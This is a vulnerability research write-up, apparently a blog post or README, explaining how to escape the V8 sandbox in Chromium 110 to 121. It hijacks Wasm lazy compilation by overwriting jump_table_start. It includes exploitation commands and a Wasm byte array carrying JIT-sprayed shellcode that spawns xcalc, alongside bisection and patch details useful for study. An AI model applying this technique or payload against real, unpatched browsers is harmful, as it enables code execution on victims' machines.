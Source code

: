 # Escaping V8 Sandbox via WebAssembly JIT Spraying: Part 2 (110.0.5481.77 <= Chromium < 122.0.6261.57)

After the [patch](https://chromium.googlesource.com/v8/v8/+/2eb73988a37a60520a0f8e0b1109edbcc0b91415) for the exploitation technique explained in [part 1](https://aaronsjcho.github.io/Escaping-V8-Sandbox-via-WebAssembly-JIT-Spraying-Part-1/), we cannot directly overwrite call target and control `rip`. However, a new technique was introduced because of newly implemented lazy compilation for Wasm function. I will explain about this in this post.

## Setup

- Ubuntu 22.04.5 LTS (WSL)
- [8cf17a14a78cc1276eb42e1b4bb699f705675530](https://chromium.googlesource.com/v8/v8/+/8cf17a14a78cc1276eb42e1b4bb699f705675530) (Jan 4th, 2024)

Run [`setup.zsh`](./setup.zsh) in your working directory.
## Analysis

### WebAssembly lazy compilation

```js
/*
(module
    (func (export "f1"))
    (func (export "f2"))
    (func (export "f3"))
    (func (export "f4"))
)
*/
let wasm_src = new Uint8Array([0x0, 0x61, 0x73, 0x6d, 0x1, 0x0, 0x0, 0x0, 0x1, 0x4, 0x1, 0x60, 0x0, 0x0, 0x3, 0x5, 0x4, 0x0, 0x0, 0x0, 0x0, 0x7, 0x15, 0x4, 0x2, 0x66, 0x31, 0x0, 0x0, 0x2, 0x66, 0x32, 0x0, 0x1, 0x2, 0x66, 0x33, 0x0, 0x2, 0x2, 0x66, 0x34, 0x0, 0x3, 0xa, 0xd, 0x4, 0x2, 0x0, 0xb, 0x2, 0x0, 0xb, 0x2, 0x0, 0xb, 0x2, 0x0, 0xb]);
let wasm_module = new WebAssembly.Module(wasm_src);
```

When a Wasm module is constructed, a memory region whose permission is set to RWX is allocated for compiling and executing Wasm functions.

![](img/1.png)

There is jump table at the very front of this region, which is responsible for deciding execution flow when Wasm function is called.

![](img/2.png)

When a function is called for the first time, it jumps to `Builtins_WasmCompileLazy()` and compile the function lazily in run-time.

![](img/3.png)

From the second call, it directly jumps to compiled code.

`Builtins_WasmCompileLazy()` is generate by [`Builtins::Generate_WasmCompileLazy()`](https://source.chromium.org/chromium/v8/v8/+/8cf17a14a78cc1276eb42e1b4bb699f705675530:src/builtins/x64/builtins-x64.cc;l=3118). It adds code which [set `r15` to `jump_table_start` in `WasmInstanceObject`](https://source.chromium.org/chromium/v8/v8/+/8cf17a14a78cc1276eb42e1b4bb699f705675530:src/builtins/x64/builtins-x64.cc;l=3145) and [jumps to `r15`](https://source.chromium.org/chromium/v8/v8/+/8cf17a14a78cc1276eb42e1b4bb699f705675530:src/builtins/x64/builtins-x64.cc;l=3151). As a result, generated code of `Builtins_WasmCompileLazy()` looks like following:

![](img/4.png)

## Exploitation

### Hijack execution flow

With lazy compilation enabled, we can overwrite `jump_table_start` with the address which we want to jump to, before Wasm function is compiled. Then, `Builtins_WasmCompileLazy()` will jump to the address after compilation is over, which means that we can control `rip`.

[`shellcode.py`](./shellcode.py)

[`pwn.wat`](./pwn.wat)

[`wasm.py`](./wasm.py)

```zsh
~/wabt/bin/wat2wasm pwn.wat # output: pwn.wasm
python3 wasm.py # output: [0x0, 0x61, 0x73, 0x6d, 0x1, 0x0, 0x0, 0x0, 0x1, 0x4, 0x1, 0x60, 0x0, 0x0, 0x3, 0x2, 0x1, 0x0, 0x7, 0x8, 0x1, 0x4, 0x6d, 0x61, 0x69, 0x6e, 0x0, 0x0, 0xa, 0xb1, 0x1, 0x1, 0xae, 0x1, 0x0, 0x42, 0xc8, 0xe2, 0x80, 0x86, 0x89, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xe6, 0xf0, 0xb2, 0x9b, 0x86, 0x8a, 0xe4, 0xf5, 0x2, 0x42, 0xb8, 0xdf, 0xe0, 0x9b, 0x96, 0x8c, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0x82, 0x83, 0x87, 0x82, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0x8a, 0xbc, 0x91, 0x96, 0xcd, 0xdb, 0xf5, 0x2, 0x42, 0xd0, 0x90, 0xa5, 0xbc, 0x8e, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0xe2, 0xd8, 0x87, 0x89, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0x90, 0x91, 0xc5, 0x81, 0x8c, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xe6, 0xf0, 0xea, 0x81, 0x83, 0x8a, 0xe4, 0xf5, 0x2, 0x42, 0xb8, 0x99, 0x85, 0xca, 0xd5, 0x87, 0xe4, 0xf5, 0x6, 0x42, 0x90, 0x91, 0x85, 0x86, 0x8e, 0x84, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0x8a, 0x90, 0xca, 0xb4, 0x8a, 0xd4, 0xf5, 0x6, 0x42, 0xd0, 0x90, 0xa5, 0x84, 0x8e, 0x92, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0xe2, 0xec, 0x9e, 0x85, 0x8a, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0x92, 0x8a, 0x87, 0x89, 0x92, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0xe2, 0x80, 0x86, 0xbb, 0x87, 0xe4, 0xf5, 0x6, 0x42, 0x8f, 0x8a, 0xc0, 0x84, 0x89, 0x92, 0xa4, 0xc8, 0x90, 0x7f, 0xf, 0xb]
```

You have to install `/bin/xcalc` by running `sudo apt install -y x11-apps` before executing [`pwn.js`](./pwn.js) if you are using WSL.

![](img/5.png)

## Bisection

> [[wasm] Enable lazy compilation by default](https://chromium.googlesource.com/v8/v8/+/29131d5e3ea9cbfeae3e6dc3fd6c4439f0ac4bde) (Nov 14th, 2022)

The new exploitation technique explained in this post was introduced in the commit above, which enabled lazy compilation for Wasm function by default.

## Patch

> [[wasm] Introduce WasmTrustedInstanceData](https://chromium.googlesource.com/v8/v8/+/59acab802a319da23c1c005e062fbc2bab4d348b) (Jan 4th, 2024)
> This CL moves most data from the WasmInstanceObject to a new WasmTrustedInstanceData. As the name suggests, this new object is allocated in the trusted space and can hence hold otherwise-unsafe data (like direct pointers). As the Wasm instance was still storing some unsafe pointers, this CL closes holes in the V8 sandbox, and allows us to land follow-up refactorings to remove more indirections for sandboxing (potentially after moving more data structures to the trusted space).
